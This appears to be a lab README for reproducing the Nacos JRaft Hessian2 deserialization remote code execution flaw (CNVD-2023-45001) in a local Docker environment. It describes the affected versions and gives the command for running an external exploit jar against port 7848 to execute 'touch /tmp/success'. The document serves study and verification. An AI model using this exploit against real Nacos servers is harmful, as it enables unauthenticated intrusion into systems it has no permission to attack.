


# Nacos JRaft Hessian Deserialization Remote Code Execution (CNVD-2023-45001)

[中文版本(Chinese version)](README.zh-cn.md)

Nacos is an open-source platform developed by Alibaba for dynamic service discovery, configuration management, and service metadata management in cloud-native and microservice architectures.

In Nacos versions 1.4.0 through 1.4.5 (cluster mode) and 2.0.0 through 2.2.3 (any mode), a deserialization vulnerability exists in the JRaft cluster communication protocol. The Nacos JRaft server listens on port 7848 for inter-cluster communication and uses the Hessian2 protocol for message serialization. Because Hessian2 deserialization is performed without type restrictions, an unauthenticated remote attacker can send a crafted malicious payload to port 7848, triggering a gadget chain that results in arbitrary command execution on the server. In the 2.x series, the vulnerability is exploitable regardless of whether Nacos is running in standalone or cluster mode, and requires no authentication.

References:

- <https://xz.aliyun.com/news/13761>
- <https://github.com/c0olw/NacosRce/>
- <https://www.cnvd.org.cn/flaw/show/CNVD-2023-45001>

## Environment Setup

Execute the following command to start a vulnerable Nacos 2.2.2 instance:

```
docker compose up -d
```

After the server starts, wait approximately 30 seconds for Nacos to fully initialize, then visit `http://your-ip:8848/nacos` to access the Nacos console.

## Vulnerability Reproduction

Download the `NacosRce.jar` tool from <https://github.com/c0olw/NacosRce/releases>. This tool crafts a malicious Hessian2 serialized payload and sends it directly to the JRaft port (7848), exploiting the deserialization vulnerability to execute an arbitrary command on the target server.

Send the exploit payload using the following command, replacing `your-ip` with the target host:

```
java -jar NacosRce.jar http://your-ip:8848/nacos 7848 "touch /tmp/success"
```



After the command executes, verify that the file was created inside the container:

```
docker compose exec web ls /tmp/success
```

If the file `/tmp/success` is present, remote code execution has been confirmed.


